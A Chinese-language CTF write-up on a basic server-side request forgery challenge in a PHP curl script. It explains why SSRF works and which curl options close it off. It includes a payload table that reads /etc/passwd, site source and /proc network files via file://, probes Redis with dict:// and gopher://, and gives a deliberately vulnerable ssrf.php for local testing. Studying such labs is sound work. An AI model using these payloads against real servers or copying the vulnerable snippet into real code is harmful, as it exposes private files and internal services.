

## 一句话概括

当后端把**用户提交的 URL** 交给 `curl` / `file_get_contents` 去请求时，**发请求的人就从攻击者变成了服务器**。服务器能访问的内网、本机端口、本地文件，攻击者由此间接获得 —— 这就是 SSRF（Server-Side Request Forgery，服务端请求伪造）。

`curl_setopt()` 的每一个选项，决定的正是「这次由服务器代发的请求，允许它跑多远」。

## 本题情景与解题手法

### 题目形态

页面直接把源码高亮贴出来，只有一个 POST 参数入口：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);      // 把本文件源码打印到页面
$url = $_POST['url'];          // 唯一可控点
$ch = curl_init($url);         // 用这个值初始化一个 cURL 会话
curl_setopt($ch, CURLOPT_HEADER, 0);          // 不输出响应头
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);  // 结果存变量，不直接打印
$result = curl_exec($ch);      // 真正发起请求
curl_close($ch);
echo ($result);                // 把请求到的内容原样输出
?>
```

看到 `highlight_file(__FILE__)` 就意味着**题目把源码白送了**：不需要猜逻辑，逐行读即可。

### 第一步：从源码确定「可控点」和「出口」

| 源码片段 | 读出来的事实 |
|---|---|
| `$url = $_POST['url'];` | 目标 URL 完全由我们决定 |
| `curl_init($url)` + `curl_exec($ch)` | 请求由**服务器**发起 —— SSRF 成立 |
| `CURLOPT_RETURNTRANSFER, 1` + `echo ($result)` | 请求到的内容**会回显给我们** —— 有回显的 SSRF，最好打 |
| `CURLOPT_HEADER, 0` | 响应头不返回，只返回响应体 |

**关键判断**：这题没有任何协议白名单、没有 IP 黑名单。也就是说 `file://`、`dict://`、`gopher://` 一律可用，可以直接去读文件。

### 第二步：直接用 file:// 读文件

`file://` 走的不是网络，是本地文件系统 —— 在 curl 里它不需要任何额外配置就能用。

```http
POST / HTTP/1.1
Host: 靶机地址
Content-Type: application/x-www-form-urlencoded

url=file:///etc/passwd
```

响应体会直接变成 `/etc/passwd` 的内容（每行形如 `root:x:0:0:root:/root:/bin/bash`）。能读到，说明 `file://` 没被拦、且运行用户对该文件有读权限。

### 第三步：按常见路径枚举 flag 文件

`file://` **不能列目录**，指向目录只会返回空或报错，所以只能按常见布点逐个试：

```text
file:///flag
file:///flag.txt
file:///flag.php
file:///var/www/html/flag
file:///var/www/html/flag.txt
file:///var/www/html/flag.php
file:///var/www/html/ctf/flag.php
```

每换一个路径发一次包，看回显是不是变成了源码形式（`<?php ... ?>`）或一段 `ctfshow{...}`。本题 flag 就放在站点可访问的常规位置，用 `file:///flag.php` 这类写法即可命中。

> 笔记里没有写下最终命中的那一条路径，只记下了上面这组候选清单 —— 实际打的时候按「先猜站点根目录、再猜系统根目录」的顺序刷一遍即可。

### 本题为什么这么简单

因为它是一个**没有任何防护的裸 SSRF**：不校验协议、不校验 IP、不回显头、直接 echo。它的价值在于起示范作用 —— 后面 web354 / web357 是在这个基础上逐步加黑名单、加 `filter_var`、加正则，于是才需要 302、DNS 重绑定这些绕过手法。

### 注入手法一句话总结

> **源码白给** → 确认 `curl_exec` 由服务器代发且内容回显 → 直接 `url=file:///flag.php` 读本地文件；`file://` 不能列目录，所以要按常见路径列表逐个枚举。

## 原理

### 1. SSRF 的本质是「信任边界转移」

同样的 `http://127.0.0.1/flag.php`，写在攻击者浏览器里毫无意义（那是攻击者自己的机器），写进 `url` 参数里却能拿到靶机的 flag。原因只有一个：**请求的发起者变了**。



内网服务的访问控制，几乎全部建立在「请求来自服务器自己 / 同网段」这个前提上：

| 被保护的东西 | 保护依据 | SSRF 为什么能碰 |
|---|---|---|
| `127.0.0.1:80` 上的管理后台 | 只监听回环，外网连不上 | 服务器自己访问 127.0.0.1 就是「本机」 |
| 3306 / 6379 只监听内网网卡 | 防火墙拦外网入站 | 出站从服务器发起，不经过入站规则 |
| 192.168 / 10. 网段的其它主机 | 无认证，只靠网络隔离 | 服务器天然在网段内 |
| 本地文件 `/flag.php` | 外网根本读不到 | `file://` 由服务器读取后带回来 |

**SSRF 没有攻破任何防火墙，它只是让服务器"自愿地"替攻击者去敲内网的门。**

### 2. `curl_init()` 与 `curl_exec()` 是两个动作

笔记里这一点讲得很细，值得保留：

| 函数 | 做的事 |
|---|---|
| `curl_init($url)` | **只是创建会话并把目标地址记下来**，不发任何网络请求 |
| `curl_setopt($ch, ...)` | 给这个会话设置各种开关 |
| `curl_exec($ch)` | **到这一行才真正发请求** |

区分这两个动作很重要：**校验代码如果只加在 `curl_init` 之前（检查 URL 字符串），而真实请求在 `curl_exec` 才发出，中间就存在可乘之机**（302 绕过正是利用了这一点，见 05）。

### 3. curl_setopt 各选项：分别关掉了哪条攻击路径

本题只用了两个无关安全的选项，但把这一族选项看全，就知道一个「安全的 SSRF 实现」该长什么样：

| 选项 | 本题取值 | 作用 | 如果不设/设反，会打开什么 |
|---|---|---|---|
| `CURLOPT_HEADER` | `0` | 输出里不含响应头 | 与安全无关，只影响可读性 |
| `CURLOPT_RETURNTRANSFER` | `1` | 结果作为字符串返回而不直接打印 | **配合 `echo` 是"有回显"的前提**；设 `0` 则内容直接输出，等价于有回显；若既不 return 又不 echo，就退化成盲 SSRF |
| `CURLOPT_FOLLOWLOCATION` | **默认 0（本题没开）** | 是否自动跟随 3xx 跳转 | 默认不跟随 → 302 绕过打不通；一旦业务把它打开（很多下载/图片代理功能会开），**302 跳转绕过立刻成立** |
| `CURLOPT_MAXREDIRS` | 默认 -1 | 最多跟随几次跳转 | 限制跳转链长度，防止无限跳转型绕过 |
| `CURLOPT_PROTOCOLS` | 未设 | 白名单：只允许列出的协议 | 设成 `CURLPROTO_HTTP \| CURLPROTO_HTTPS`，则 `file:` `dict:` `gopher:` 全部被拒 —— **这是最有效的一条 SSRF 加固** |
| `CURLOPT_REDIR_PROTOCOLS` | 未设 | 限制**跳转之后**允许的协议 | 不设时，跳转可以切到 `file://` 等危险协议（老版本 curl 的经典绕过） |
| `CURLOPT_PORT` / `CURLOPT_TIMEOUT` | 未设 | 固定端口 / 超时 | 与安全关系不大，但超时对「探测型」SSRF 有影响 |

一句话：**只加 IP 黑名单而不设 `CURLOPT_PROTOCOLS` 和 `CURLOPT_REDIR_PROTOCOLS`，等于门锁了但窗户开着。**

### 4. 为什么这个功能点会出现在真实业务里

这类代码不是凭空写的，常见的正当需求包括：图片/网页代理、URL 预览、RSS 抓取、PDF 渲染、Webhook 回调、第三方数据拉取。**共同点是：目标地址由用户给出，请求由服务器发出。** 只要这两个条件同时成立，就有 SSRF 的土壤。

## 利用条件

1. **参数可控**：URL（或 host/path/scheme 任一部分）来自用户输入
2. **服务端发起请求**：`curl_exec` / `file_get_contents` / `fsockopen` / requests 等
3. **能拿到结果**：有回显最好；无回显则走盲 SSRF（带外通道）
4. **协议未被限制**：`CURLOPT_PROTOCOLS` 未收紧时，`file://` / `dict://` / `gopher://` 都可用
5. **目标可达**：想读的文件确实存在、想打的服务确实在监听

## Payload 速查

| 目的 | Payload |
|---|---|
| 读本地文件 | `url=file:///etc/passwd` |
| 读站点源码 | `url=file:///var/www/html/index.php` |
| 读 flag（逐路径试） | `url=file:///flag.php`、`file:///flag`、`file:///var/www/html/flag.php` |
| 看内网网卡信息 | `url=file:///etc/hosts` |
| 看 ARP 缓存（找邻居主机） | `url=file:///proc/net/arp` |
| 看路由网段 | `url=file:///proc/net/fib_trie` |
| 探测本机端口 | `url=dict://127.0.0.1:6379` |
| 打内网非 HTTP 服务 | `url=gopher://127.0.0.1:6379/_%2A1%0D%0A...` |

## 完整示例

### 请求与响应

```http
POST / HTTP/1.1
Host: 靶机地址
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

url=file:///etc/passwd
```

响应体：

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

### 一个最小可跑的本地验证脚本

想在本机复现「服务器代发请求」这件事，可以自己写一个同样有漏洞的 `ssrf.php`：

```php
<?php
$url = $_GET['url'];
echo file_get_contents($url);
```

然后访问 `ssrf.php?url=file:///etc/hosts`，观察回显是谁的文件 —— **是执行 PHP 的那台机器的文件，不是你浏览器的。**

## 踩坑与备注

- **`file://` 不能列目录**：指向一个目录只会返回空或报错，想看目录属于「目录遍历 / 文件包含」的领域，`file://` 帮不上忙。真实渗透里拿目录列表靠的是备份文件泄露、Git 泄露、目录遍历漏洞等。
- **`file://` 的斜杠数量**：`file:///etc/passwd` 是三个斜杠（`file://` + 绝对路径 `/etc/passwd`）。写两个斜杠在部分实现里会被当成主机名，读不到。
- **`highlight_file(__FILE__)` 是出题人故意送的**：`__FILE__` 是当前脚本的绝对路径，这一句相当于把源码打印到页面上，看到它就先读源码。
- **`error_reporting(0)` 会吞掉报错**：`curl` 报错时页面可能一片空白而不是报错信息，判空时不要误判成"没漏洞"。
- **别把 SSRF 和 CSRF 搞混**：CSRF 是「借用户的身份发请求」，SSRF 是「借服务器的身份发请求」。前者信任边界在浏览器，后者在服务器。
